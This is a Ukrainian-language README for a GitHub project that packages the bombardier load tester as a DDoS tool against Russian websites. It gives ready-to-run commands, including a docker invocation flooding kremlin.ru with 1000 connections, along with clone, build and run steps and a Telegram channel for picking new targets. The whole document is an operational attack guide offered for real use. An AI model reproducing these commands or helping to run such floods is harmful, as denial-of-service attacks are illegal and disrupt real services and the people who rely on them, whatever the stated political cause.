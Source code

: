 # fuckputin

🇺🇦 DDoS скрипт для координації боротьби з загарбницькими сайтами - використовує bash та [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [English manual](./README.md)

### Cпрощена інструкція - мануальне виконання скрипта

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Остання частина команди це сайт, слід обрати сайт з [останніх повідоплень чату](https://t.me/itarmyofukraine2022)  

### Автоматичний скрипт

Скрипт виконує цю команду та автоматично підставляє цілі

#### Цілі

Найкраще слідкуйте за оновленими цілями [в цьому офіційному каналі](https://t.me/itarmyofukraine2022)  
Відредагуйте список у файлі [./fuckputin.sh](/fuckputin.sh)

#### Скрипт

- Зкачайте код виконаиши цю команду в терміналі:  
   `git clone https://github.com/v1adko/fuckputin.git`
- Перейдіть до папки з кодом - `cd ./fuckputin`
- (опціонально) Оновіть [цілі](#цілі)

#### Запуск в Docker контейнері

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker-compose up --build`  
   **або**
- `docker build -t fuckputin`
- `docker run fuckputin`

#### Локальний запуск

- Встановіть Go - [інструкції](https://go.dev/doc/install)
- Встановіть bombardier [зкачавши бінарний файл](https://github.com/codesenberg/bombardier/releases) відповідний до вашої системи
- Запустіть команду `./fuckputin-local.sh`

### Усе

Зараз можете залишити виконуватись программу на деякий час, можете [моніторити чат](https://t.me/itarmyofukraine2022) та [оновлювати цілі](#цілі) після чого перезапускати скрипт

Дякую за боротьбу! Україна переможе! 💪 🇺🇦
